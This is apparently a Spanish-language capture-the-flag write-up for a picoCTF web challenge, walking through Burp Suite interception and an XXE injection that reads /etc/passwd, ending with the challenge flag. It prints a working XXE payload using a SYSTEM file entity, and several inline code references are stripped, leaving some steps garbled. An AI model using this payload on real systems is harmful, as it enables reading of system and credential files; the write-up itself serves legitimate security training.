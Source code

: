 #### Description

The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?[Web Portal](http://saturn.picoctf.net:57874/)

**Solución**
Para resolver este desafío, seguí estos pasos:

1. Lancé una instancia y visité el portal web que generó.
2. Cargué la página web en BurpSuite, ya que necesitaba ver un archivo.
3. Hice clic en , intercepté la solicitud con BurpSuite y vi que la solicitud devolvía una sección de`Details`

```
<?xml version="1.0" encoding="UTF-8"?><data><ID>2</ID></data>
```

4. Envié esta solicitud al Repetidor, y al enviarla, la respuesta devolvió una sección de

```
<strong>Special Info::::</strong> Created By security and privacy experts
```

5. A continuación, probé una vulnerabilidad XXE (inyección de entidades externas) cambiando el en la solicitud a . La respuesta devolvió .`2``0``Invalid ID: 0`
6. Agregué el siguiente código

```
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
```

y cambió el ID a . Esto reemplazaría con en la respuesta. Establezco la sección de código en`&example;``&example;``Doe`

```
<!DOCTYPE replace [<!ENTITY example "0"> ]>
```

La respuesta devolvió . 7. Cambié la entidad a y el ID a . Reemplacé el original`Invalid ID: 0``example``test``&test;`

```
<!DOCTYPE replace [<!ENTITY example "0"> ]>
```

con

```
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
```

Esto recuperaría el contenido del archivo. La sección completa del código se convirtió en`/etc/passwd`

```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><data><ID>&test;</ID></data>
```

8. Envié esta solicitud y la respuesta mostró la bandera


**Respuesta en el formato del concurso:**
picoCTF{XML_3xtern@l_3nt1t1ty_e5f02dbf}